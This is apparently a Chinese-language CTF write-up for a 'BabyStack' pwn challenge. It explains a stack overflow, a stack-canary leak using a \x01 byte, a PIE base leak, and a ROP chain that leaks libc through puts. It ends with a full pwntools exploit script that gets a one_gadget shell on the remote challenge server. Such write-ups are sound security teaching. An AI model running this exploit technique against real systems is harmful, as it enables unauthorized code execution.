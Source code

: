 # BabyStack

题目来源：http://xmctf.top/

漏洞很明显，是一个栈溢出，BUF只有136，输入数据长度0x100（256）。

![5h60nP](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/5h60nP.png)

保护全开，不能覆盖got表。开了金丝雀，所以一般的ROP也用不了。

跑了一下，发现造成stack smash，一开始想到了这个技巧，不过似乎又没有什么用。

![U6LYWS](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/U6LYWS.png)

**canary和PIE偏移地址泄露**

后来发现第一次输出可以控制溢出字节，正好和canary拼接，第一次输出能够泄露canary地址。由于canary低位为0，读取时候会被截断，所以我们补一位\x01，这样就不会被截断了。

同时，后面还有init函数的地址同样可以泄漏，可以用于绕过PIE。

![gJdh5g](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/gJdh5g.png)

```python
#泄露canary
ru("What's your name:")
s("A"*(0x90-0x8)+"\x01")  # x/20xg $rbp-0x8-0x20   #\x01 is important

p.recv(8)
p.recv(0x90-2)
print "[*]canary="+hex(u64(p.recv(8))-1)
```

利用puts_plt读取puts_got来泄漏地址，当然，这些操作都建立在泄露ELF程序偏移地址绕过PIE之后。最后用传统的ROP泄露libc地址，最后one_gadget解决。

**EXP**

 ```python
#!/usr/bin/python
from pwn import *

#p=process("babystack")
p=remote("nc.eonew.cn",10501)

context.log_level='Debug'
#gdb.attach(p,"b *0x00005555555548e8")#8f2")
#gdb.attach(p,"b *0x0000555555554973")
#gdb.attach(p,"b *0x0000555555554907")
#gdb.attach(p,"b *0x7ffff7a332c5")
r  = lambda data	:p.recv(data)
ru = lambda data 	:p.recvuntil(data)
s  = lambda data	:p.send(data)
sl = lambda data	:p.sendline(data)

ru("What's your name:")
s("A"*(0x90-0x8)+"\x01")  # x/20xg $rbp-0x8-0x20   #\x01 is important

p.recv(8)
p.recv(0x90-2)
canary=u64(p.recv(8))-1
base_addr=u64(p.recv(6).ljust(8,"\x00"))-0x910
print "[*]canary="+hex(canary)
print "[*]base_addr="+hex(base_addr)

puts_plt=0x690+base_addr
puts_got=0x200fa8+base_addr
pop_rdi=0x973+base_addr

main=0x80a+base_addr

ru("What do you want to say:")
payload="B"*(0x90-0x8)+p64(canary)+"A"*0x8+p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(main)
sl(payload)
p.recvline()
puts_addr=u64(p.recv(6).ljust(8,"\x00"))
libc_addr=puts_addr-0x809c0
print "[+]puts_addr="+hex(puts_addr)
print "[+]libc_addr="+hex(libc_addr)

one_gadget=libc_addr+0x4f2c5

ru("What's your name:")
sl("migraine")
ru("What do you want to say:")
payload="C"*(0x90-0x8)+p64(canary)+"A"*0x8+p64(one_gadget)
sl(payload)

p.interactive()

'''
0x7fffffffdf90

'''
 ```

以前没注意到 **one_gadget -l1  libc-2.27.so** 的-l参数可以输出更多one_gadgets..这次用上了

![EexSJD](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/EexSJD.png)

# 参考

https://bbs.ichunqiu.com/thread-47443-1-1.html

https://www.52pojie.cn/thread-932096-1-1.html